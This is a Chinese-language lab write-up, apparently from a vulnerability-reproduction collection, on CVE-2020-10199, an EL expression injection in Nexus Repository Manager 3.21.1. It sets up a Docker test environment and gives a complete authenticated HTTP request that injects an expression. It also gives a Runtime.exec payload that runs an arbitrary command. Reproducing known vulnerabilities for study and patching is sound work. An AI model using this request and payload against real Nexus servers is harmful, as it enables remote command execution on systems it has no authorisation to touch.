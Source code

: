# Nexus Repository Manager 3 远程命令执行漏洞（CVE-2020-10199）

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞环境

执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。

## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 203
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.7886248393834028
Content-Type: application/json
Accept: */*
Origin: http://127.0.0.1:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://127.0.0.1:8081/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
Connection: close

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```

![](1.png)

参考<https://github.com/jas502n/CVE-2020-10199>，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}`即可成功执行任意命令。
